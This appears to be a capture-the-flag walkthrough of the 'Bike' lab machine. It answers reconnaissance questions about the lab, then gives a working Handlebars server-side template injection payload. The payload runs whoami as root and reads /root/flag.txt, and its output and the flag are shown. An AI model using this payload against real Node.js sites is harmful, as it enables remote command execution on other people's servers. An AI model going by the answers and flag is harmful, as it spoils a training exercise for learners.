

### Bike

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 1](/StartingPoint/Tier1/)<br><br>
**Tags:** Custom Applications, NodeJS, Reconnaissance, Remote Code Execution, Server Side Template Injection (SSTI)

---

#### Task 1

**What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high.**

> 22,80

We use the `nmap` command with the `-p-` and `-sT` flags to TCP scan every port:


---

#### Task 2

**What software is running the service listening on the http/web port identified in the first question?**

> Node.js

We use the `nmap` command with the `-p80` and `-sV` flags:


---

#### Task 3

**What is the name of the Web Framework according to Wappalyzer?**

> Express

We go to the target machine's website `http://{IP Address}` and use the Wappalyzer browser extension:


---

#### Task 4

**What is the name of the vulnerability we test for by submitting {{7*7}}?**

> Server Side Template Injection

We submit `{{7*7}}` in the email field:


---

#### Task 5

**What is the templating engine being used within Node.JS?**

> Handlebars

After submitting `{{7*7}}` in the email field, we get an error which shows us which templating engine being used:


---

#### Task 6

**What is the name of the BurpSuite tab used to encode text?**

> Decoder


---

#### Task 7

**In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?**

> URL


---

#### Task 8

**When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?**

> require

We open BurpSuite on our machine and go to the Proxy tab. We then go to the target machine's website `http://{IP Address}` (make sure that `Intercept is off` on BurpSuite). Next we go back to the BurpSuite Proxy tab and make sure ``Intercept is on`:


Then on the target website we submit `{{7*7}}` in the email field again. Next we go back to the BurpSuite Proxy tab and see the HTTP Request we send by submitting `{{7*7}}`.


Now we click on the `Action` button and choose `Send to Repeater`. Then we click on the Repeater tab on BurpSuite and see that we can alter and then send our HTTP Request that was just intercepted.


Then we go to [HackTricks's SSTI Page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) and find the `Handlebars (NodeJS)` section. We see this Javascript code that will allow us to make a syscall using the privileges the website has.

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

We also see the Javascript code in URLencoded format. We go to the Repeater tab on BurpSuite and replace the email field in the Request tab with the URLencoded code we copied from HackTricks. We click the `send` button which sends our altered HTTP Request to the website. We capture the HTTP Response from the website which is a `Internal Service Error`. In the HTML code sent by the HTTP Response we see that `require is not defined`.




---

#### Task 9

**What variable is traditionally the name of the top-level scope in the browser context, but not in Node.JS?**

> global


---

#### Task 10

**By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?**

> root

Looking at the Node.js documentation, we see that there is a `process` object that has a `mainModule` variable. Additionally this `mainModule` varaible is deprecated and has been replaced with `require.main`. Since our HackTricks code didn't work because the `require` variable wasn't defined, we can try to use `process.mainModule` instead of `require`. Additionally we change `exec` to `execSync` so that the website waits for our supplied command `whoami` to execute before changing the website:

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Next we go to the Decoder tab on BurpSuite. We input our altered code from HackTricks as `Text`. Next we go to the `Encode as ...` dropdown menu and choose `URL`:


We then copy this encoded URL and go back to the Repeater tab on BurpSuite. We then alter our HTTP Response again by changing the `email` to our encoded URL. Then we send our altered HTTP Request to the website:


Our webpage now displays the content, meaning that the website is running as the user `root`:

```
We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            root
```

---

#### Flag

> 6b258d726d287462d60c103d0142a81c

We just adjust our above javascript code to execute the command `cat /root/flag.txt`, re-encode the URL with our altered code, and re-send the HTTP Request using BurpSuite.

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

The website displays the flag:

```
We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            6b258d726d287462d60c103d0142a81c

```

---